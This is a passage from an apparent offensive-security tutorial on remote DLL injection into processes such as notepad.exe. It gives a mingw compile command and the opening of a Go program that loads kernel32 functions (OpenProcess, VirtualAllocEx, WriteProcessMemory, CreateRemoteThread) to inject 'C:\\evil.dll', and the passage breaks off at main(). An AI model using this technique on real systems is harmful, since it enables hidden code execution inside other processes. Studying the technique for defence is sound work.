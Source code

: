 ## EZ. Okee, let's see this shit in action...  Compile it again...  

```  
x86_64-w64-mingw32-gcc -O2 example-2.cpp -o example-2.exe -mconsole -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```  

![](/go-remote-dll-process-injection/example-2-success.png)

## Success! You can see in the notepad.exe properties of process hacker that we have a thread with TID (4940) kernel32.dll!LoadLibraryA. We did it again...  

## Enough messing around, we came here because of t3h GoLang...  

**GoLang go brrrrr... make dll injekt... We leverage the power of sycall, notice we are not using golang.org/x/sys/windows here...**  

- example-3.go  

```go  
package main

import (
	"fmt"
	"os"
	"strconv"
	"syscall"
	"unsafe"
)

const (
	FALSE                     = 0
	PROCESS_QUERY_INFORMATION = 0x0400
	PROCESS_VM_WRITE          = 0x0020
	PROCESS_VM_OPERATION      = 0x0008
	PROCESS_CREATE_THREAD     = 0x0002
	PAGE_EXECUTE_READWRITE    = 0x40
	PAGE_READ_WRITE           = 0x00000004
	MEM_RESERVE               = 0x00002000
	MEM_COMMIT                = 0x00001000
	MEM_RELEASE               = 0x8000
	PROCESS_ALL_ACCESS        = PROCESS_QUERY_INFORMATION | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD
)

var (
	targetDll          = "C:\\\\evil.dll"
	dllLength          = len(targetDll)
	kernel32           = syscall.NewLazyDLL("kernel32.dll")
	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
	openProcess        = kernel32.NewProc("OpenProcess")
	writeProcessMemory = kernel32.NewProc("WriteProcessMemory")
	createRemoteThread = kernel32.NewProc("CreateRemoteThread")
	closeHandle        = kernel32.NewProc("CloseHandle")
	virtualAllocEx     = kernel32.NewProc("VirtualAllocEx")
	virtualFreeEx      = kernel32.NewProc("VirtualFreeEx")
)

func main() {
```